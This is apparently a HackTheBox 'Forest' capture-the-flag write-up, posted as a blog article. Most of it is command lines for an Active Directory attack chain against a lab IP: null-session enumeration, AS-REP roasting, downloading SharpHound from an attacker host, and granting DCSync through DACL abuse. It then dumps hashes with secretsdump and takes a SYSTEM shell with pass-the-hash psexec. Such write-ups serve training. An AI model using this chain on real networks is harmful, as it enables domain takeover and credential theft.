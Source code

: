 ```yaml
---
layout: post
title: "Forest"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox, Active Directory]
tags: [htb, writeup, security, ad, windows]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/favicons/Hack-The-Box-logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```




as most  of boxes, I will start with nmap

```bash
sudo nmap -sC -sV -p-  -T4 10.10.10.161 -oN FOREST
``` 
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522201952.png)
kerberos ,ldap ,smb, rpc   that's a DC but without DNS (port 53 ) which is weird for me

let's check null session against smb and ldap and rpc

ldap null session is allowed  
```bash
nxc ldap 10.10.10.161  -u '' -p ''  --users
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522202946.png

we can enumerate users with null session for ldap and rpc 
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522203256.png)



let's create a wordlists and try `asreproasting`
```bash
rpcclient 10.10.10.161 -U  '' -N -c  enumdomusers | cut -d '[' -f 2 | cut -d ']' -f 1
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522204005.png)


`asreproasting`
```bash
nxc ldap 10.10.10.161  -u users.txt -p ''  --asreproast asreproast 
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522204136.png)

`hashcat` + rockyou.txt
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522204214.png)

enumerate using `ldapdomaindump`
```bash
python3 ldapdomaindump.py --user 'HTB\svc-alfresco' --password s3rvice --outdir ldapdomaindump 10.10.10.161
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522213314.png)

if we took a look on the user `svc-alfresco`
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522213429.png)
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522213602.png)

our  controlled user is member of the group `Remote Management Users`
so we can use `evil-winrm` to login
```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p s3rvice
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522213808.png)

when I got creds , I tried `bloodhound-python` but that didn't work because of the stupid DNS (IT'S ALWAYS DNS!)
now I will use sharphound.exe
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522214203.png)
on the windows box 
```bash
wget -Uri http://10.10.14.15/SharpHound.exe -Outfile SharpHound.exe
```

![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522214319.png)

```bash
.\SharpHound.exe -c all
```

![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522214543.png)

now we have bloodhound.zip files , let's move it to our machine , the easiest way  to do that is by hosting a smbserver using impacket

```bash
impacket-smbserver -smb2support share .
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522214723.png)

```
move 20240522135040_BloodHound.zip \\10.10.14.15\share
``` 
and we should have the file on our machine 


now we could use bloodhound  
great article about setting up bloodhound  https://blog.spookysec.net/Deploying-BHCE/

![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522221736.png)

 we could use `genericall` to add our user to the exchange group
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522221909.png)

```bash
net rpc group addmem "EXCHANGE WINDOWS PERMISSIONS" "d0s3nt" -U "HTB.LOCAL"/"svc-alfresco"%"s3rvice" -S "10.10.10.161"
```

![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522222023.png)
we could check using 
```bash
net rpc group members "EXCHANGE WINDOWS PERMISSIONS" -U "HTB.LOCAL"/"svc-alfresco"%"s3rvice" -S "10.10.10.161"`
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522222059.png)

we can use `WriteDacl` to add ourself the necssary ACL to perform `DCSync`

![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522222628.png)
setting Up this tool was nightmare, I [fellow this](https://www.youtube.com/watch?v=O_VeRoT1f1k)
I found the [script here](https://github.com/ShutdownRepo/impacket/blob/04518279ef663e80195b61d4d864d6e9e8ac5d9f/examples/dacledit.py)

```bash
dacledit.py -action 'write' -rights 'DCSync' -principal 'svc-alfresco' -target-dn 'DC=HTB,DC=LOCAL' 'HTB.LOCAL'/'svc-alfresco':'s3rvice'
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522222912.png)
nb : if it didn't work re run the net rpc command to add the user to the exchange groupe again
```bash
impacket-secretsdump HTB.LOCAL/svc-alfresco:s3rvice@10.10.10.161
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522223613.png)
using the hash we could get shell as SYSTEM using psexec

```bash
impacket-psexec HTB.LOCAL/administrator@10.10.10.161 -hashes: 32693b11e6aa90eb43d32c72a07ceea6
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522224115.png)


if we are in a real word scenario we could backtrack our modification by 
```bash
dacledit.py -action 'remove' -rights 'DCSync' -principal 'svc-alfresco'-target-dn 'DC=HTB,DC=LOCAL' 'HTB.LOCAL'/'svc-alfresco':'s3rvice'
```

when I was doing the box powerview function `Add-DomainObjectAcl` didn't work and hang on evil-wirm without response after watching ippsec , seems that the command on bloodhound graphing tool wasn't correct which is weird 

[this should work](https://burmat.gitbook.io/security/hacking/domain-enumeration-+-exploitation)
```bash
Add-DomainObjectAcl -TargetIdentity "DC=burmatco,DC=local" -PrincipalIdentity useracct1 -Rights DCSync
```
